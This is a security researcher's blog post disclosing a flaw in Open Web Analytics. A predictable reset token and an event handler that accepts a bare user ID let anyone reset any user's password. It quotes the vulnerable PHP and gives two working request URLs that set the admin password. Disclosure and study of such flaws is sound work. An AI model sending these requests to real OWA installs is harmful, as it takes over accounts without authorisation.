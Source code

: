 ```yaml
---
layout: post
title: "Resetting any user's password in Open Web Analytics with a single request"
thumbnail: sheep-480.jpg
date: 2025-07-09
---
```


Open Web Analytics (OWA) is a web app that tracks website visitors. I discovered a simple way to reset any user's password, by simply requesting a URL.

## Introduction

OWA is a PHP application that has all of its files in the webroot and does not use a well-known framework, which makes it a good candidate to find vulnerabilities. I recently did a [Hack the Box](https://www.hackthebox.com/) exercise where the goal was to exploit [a vulnerability](https://devel0pment.de/?p=2494) in OWA. This gave the final push to seriously look into it.

OWA has typical password reset functionality that stores a random token in the database and mails it to the user. The password reset form authenticates the user with the token and resets the password if it matches. OWA calls the password reset token the "temp pass key", and it is generated using a predictable method, which lacks cryptographic randomness:

```php
function generateTempPasskey($user_id) {
    return md5($user_id.time().rand());
}
```

The values of `$user_id`, `time()` and `rand()` can be deduced, after which an attacker can create their own password reset token.

When looking how to exploit this, I figured out how the password reset mechanism worked and found a much simpler vulnerability.

## Password reset vulnerability

The application accepts a password reset event with only the user ID, completely bypassing the need for a reset token.

When a user wants to reset their password, they request a password reset email, receive a link with the password reset token, click the link and submits a new password. Then:

1. the new password and reset token are submitted to the application.
2. the application verifies the password reset token.
3. if it matches, it dispatches an event to set a new password for this user.
4. the event handler actually updates the password row in the database.

The event handler doesn't necessarily need the password reset token. It is also happy when given just the user ID:

```php
public function updateUserPassword($user_params)
{
    $u = owa_coreAPI::entityFactory('base.user');

    if (!isset($user_params['temp_passkey']) && !isset($user_params['user_id'])) {
        owa_coreAPI::error( "No user identification given!" );
        return false;
    }

    if (isset($user_params['temp_passkey'])) {
        $u->getByColumn('temp_passkey', $user_params['temp_passkey']);
    }

    if (isset($user_params['user_id'])) {
        $u->getByColumn('user_id', $user_params['user_id']);
    }

    $u->set('temp_passkey', $u->generateTempPasskey($user_params['user_id']));
    $u->set('password', owa_lib::encryptPassword($user_params['password']));
    $ret = $u->update();

    return $ret ? $u : false;
}
```

The normal flow first checks the password reset token and then dispatches the event. However, we can also dispatch such an event ourselves, through queue.php. This bypasses step 1 and 2 in the flow, and thus bypasses the first check on the password reset token. By including a user ID instead of a password reset token in the event, we also bypass the second check on the password reset token. So by dispatching an event and including a user ID and omitting the password reset token, we can reset any user's password. Requesting one of the URLs below set the password of user `admin` to `abc`:

```
queue.php?owa_event[eventType]=base.set_password&owa_event[properties][user_id]=admin&owa_event[properties][password]=abc&owa_event[properties][key]=

log.php?owa_event_type=base.set_password&owa_user_id=admin&owa_password=abc&owa_key=
```

## Read more

- [From Single / Double Quote Confusion To RCE (CVE-2022-24637) – devel0pment.de](https://devel0pment.de/?p=2494)

## Technical details

The password reset mechanism works through these classes/methods:

- the new password and the reset token are submitted to `index.php?owa_do=base.usersPasswordEntry`, along with a parameter `owa_action=base.usersChangePassword`.
- `owa_usersChangePasswordController` verifies the password reset token.
- If it matches, it creates a `base.set_password` event to reset the user's password.
- The event triggers `owa_usersSetPasswordController` (through `owa_userHandlers`).
- This calls `owa_userManager::updateUserPassword`, which actually updates the password row in the database.
